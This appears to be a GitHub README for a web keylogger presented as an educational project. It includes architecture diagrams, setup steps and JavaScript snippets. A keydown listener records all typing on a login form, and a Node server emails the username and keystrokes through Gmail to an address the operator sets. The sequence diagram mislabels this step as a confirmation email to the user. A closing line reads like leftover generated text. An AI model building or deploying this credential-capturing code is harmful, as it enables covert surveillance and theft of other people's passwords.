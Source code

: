 # # Keylogger Project 🕵️‍♂️

A comprehensive educational project demonstrating client-server communication, event handling, and data processing in web applications. This implementation focuses on understanding keystroke capture mechanisms and secure data transmission protocols.

## System Architecture

```mermaid
flowchart TD
    classDef frontend fill:#42A5F5,color:#fff,stroke:#1976D2
    classDef backend fill:#66BB6A,color:#fff,stroke:#388E3C
    classDef storage fill:#FFA726,color:#000,stroke:#F57C00
    
    subgraph Frontend["Frontend Layer"]
        UI[Login Form]:::frontend
        KS[Keystroke Capture]:::frontend
        FM[Form Manager]:::frontend
    end
    
    subgraph Backend["Backend Services"]
        Server[Express Server]:::backend
        KEYS[Keystroke Processor]:::backend
        Email[Nodemailer Service]:::backend
    end
    
    subgraph Storage["Configuration"]
        ENV[".env Configuration"]:::storage
    end
    
    UI --> KS
    KS --> FM
    FM --> Server
    Server --> KEYS
    KEYS --> Email
    ENV -.-> Server
    
    %% Legend
    subgraph Legend["Component Types"]
        F[Frontend Components]:::frontend
        B[Backend Services]:::backend
        S[Storage/Config]:::storage
    end
```




The diagram illustrates the system's three-layer architecture:

- 🔵 Frontend Layer: Handles user interaction and keystroke capture
- 🟢 Backend Services: Processes captured data and manages email transmission
- 🟡 Configuration: Stores environment variables and settings

The dashed line indicates that the backend server reads configuration values from the .env file during initialization. Each component communicates sequentially, with keystrokes flowing from capture through processing to delivery.

## Project Structure

```text
📁 project-root/
├── 📄 index.js          # Backend server implementation
├── 📄 script.js         # Frontend keystroke capture
├── 📄 index.html        # Login form interface
├── 📄 keycodes.js       # Key mapping definitions
├── 📄 styles.css        # UI styling
└── 📄 .env             # Environment configuration
```

## Data Flow Visualization

```mermaid
sequenceDiagram
    participant User
    participant Form as Login Form
    participant KC as Keystroke Capture
    participant FM as Form Manager
    participant Server as Express Server
    participant KP as Keystroke Processor
    participant Email as Nodemailer Service
    
    Note over User,Email: Normal Login Flow
    User->>Form: Enter credentials
    Form->>KC: Capture keystrokes
    KC->>FM: Store captured keys
    User->>FM: Submit form
    FM->>Server: Send credentials + keystrokes
    
    Note over Server,Email: Processing Phase
    Server->>KP: Process keystroke data
    KP->>Email: Prepare email payload
    Email-->>User: Send confirmation email
    
    Note over User,Email: Error Handling
    alt Invalid Credentials
        Server-->>User: Return error message
    else Email Failure
        Email-->>Server: Report delivery error
    end
```




The sequence diagram shows three key phases of operation:

1. 🔵 Normal Login Flow: Shows the typical user interaction sequence
2. 🟢 Processing Phase: Illustrates how data is processed and transmitted
3. 🟡 Error Handling: Demonstrates fault tolerance mechanisms

Solid arrows (→) represent direct actions, while dashed arrows (-->) show responses or callbacks. Alternative flows (marked with 'alt') show how the system handles different error scenarios.

## Setup Instructions 🛠️

Clone the Repository```bash
git clone https://github.com/pranaykumar2/keylogger.git
```

Install Dependencies```bash
npm install
```

Configure Environment Variables```plaintext
GMAILFROM=your-from-email@gmail.com
PASSWORD=your-email-password
GMAILTO=your-to-email@gmail.com
PORT=3000
```

Initialize Server```bash
node index.js
```

## Implementation Details 🔍

### Keystroke Capture Mechanism

```javascript
document.addEventListener('keydown', (event) => {
    const keyInfo = {
        keyCode: event.keyCode,
        key: event.key,
        timestamp: new Date().getTime(),
        eventType: 'keydown'
    };
    capturedKeys.push(keyInfo);
});
```

### Email Transmission System

```javascript
const transporter = nodemailer.createTransport({
    service: 'gmail',
    auth: {
        user: process.env.GMAILFROM,
        pass: process.env.PASSWORD
    }
});

const mailOptions = {
    from: process.env.GMAILFROM,
    to: process.env.GMAILTO,
    subject: 'Keystrokes Log',
    text: `Keystrokes log for user ${username}:\n${keysPressedText}`
};
```
## **Steps to setup `APP PASSWORD`:**

   1. Go to your Google Account App Passwords: [Google App Passwords](https://myaccount.google.com/apppasswords)
   2. Name your app and create the password
   3. Copy the generated password and use it in the `.env` file
   4. 
## Usage Guide 📝

Launch the application at localhost:3000Enter login credentials in the formType any additional text while the page is activeSubmit the form to trigger email transmission## Technologies Used 💻

- 🔷 Frontend: HTML/CSS/JavaScript
- 🔷 Backend: Node.js, Express.js
- 🔷 Utilities: Nodemailer, Body-parser
- 🔷 Development: Git

## Contributing Guidelines 🤝

- Open an issue before submitting major changes
- Follow the existing code style
- Include comprehensive test cases
- Document new features thoroughly

## License 📜

Released under the MIT License. See LICENSE file for details.

## Security Considerations 🔒

- Store sensitive credentials securely using environment variables
- Implement proper error handling and logging
- Use secure communication protocols
- Regularly update dependencies to prevent vulnerabilities

This enhanced README provides a clearer understanding of the system architecture and implementation details while maintaining a professional and educational focus. The added diagrams help visualize both the static structure and dynamic interactions of the system components.

